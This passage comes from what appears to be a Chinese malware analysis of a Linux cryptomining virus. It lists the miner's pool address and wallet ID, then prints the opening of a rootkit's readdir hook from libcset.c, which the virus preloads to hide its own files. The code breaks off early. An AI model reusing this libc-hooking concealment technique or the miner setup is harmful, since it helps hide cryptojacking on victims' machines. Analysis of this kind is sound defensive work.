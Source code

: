 该项目地址是：

[https://github.com/fireice-uk/xmr-stak](https://github.com/fireice-uk/xmr-stak)

通过字符串检索找到其矿池地址，发现矿池已经改变

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0109133beffd202d2e.png)

这里矿池地址为：

sg.minexmr.com:5555

进一步跟入找到其钱包地址

[![](https://p1.ssl.qhimg.com/t016a813984c04e19ec.png)](https://p1.ssl.qhimg.com/t016a813984c04e19ec.png)

其钱包id为：

47eCpELDZBiVoxDT1tBxCX7fFU4kcSTDLTW2FzYTuB1H3yzrKTtXLAVRsBWcsYpfQzfHjHKtQAJshNyTU88LwNY4Q3rHFYA

以下是该钱包账户的收益情况

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01487e2774ca97357a.png)



## 0x5 针对libcset.c的分析

在kthrotlds中，对libcset.c进行了编译，并将编译生成后的/usr/local/lib/libcset.so设置为预加载动态链接库。

[![](https://p2.ssl.qhimg.com/t012dd0c32fad4e002b.png)](https://p2.ssl.qhimg.com/t012dd0c32fad4e002b.png)

以下是libcset.c的函数列表

[![](https://p1.ssl.qhimg.com/t010d14e3458418cc16.png)](https://p1.ssl.qhimg.com/t010d14e3458418cc16.png)

很明显病毒是通过hook libc.so中的函数的方式将与病毒相关的信息进行了隐藏。

如readdir函数

```
struct dirent *

readdir (DIR * dirp)

`{`

  struct dirent *dir;

  if (!libc)`{`

        libc = dlopen ("/lib64/libc.so.6", RTLD_LAZY);

        if (!libc)`{`

            libc = dlopen ("/lib/x86_64-linux-gnu/libc.so.6", RTLD_LAZY);

            if (!libc)`{`

                libc = dlopen ("/lib/libc.so.6", RTLD_LAZY);

                if (!libc)`{`

                    libc = dlopen ("/lib/i386-linux-gnu/libc.so.6", RTLD_LAZY);

```